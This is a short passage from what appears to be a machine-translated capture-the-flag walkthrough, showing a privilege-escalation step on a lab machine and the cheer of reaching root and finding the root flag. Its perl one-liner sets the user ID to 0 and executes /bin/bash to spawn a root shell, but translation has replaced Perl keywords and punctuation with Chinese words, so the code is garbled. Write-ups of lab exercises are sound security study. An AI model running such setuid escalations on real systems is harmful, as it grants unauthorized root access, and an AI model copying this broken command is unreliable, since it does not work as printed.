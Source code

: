 1.  CD/home/比邻星/比邻星
2.  。/perl -e '使用 POSIX(setuid)；POSIX::setuid(0)；exec "/bin/bash "；"

![](img/df81dacc1c4a7cfe6b778677d52bbeb8.png)

根

瞧啊。！！我们是根！！！

可以从根的主目录中获得根标志。

![](img/5477887668b68cd1a15f717ef36e3650.png)
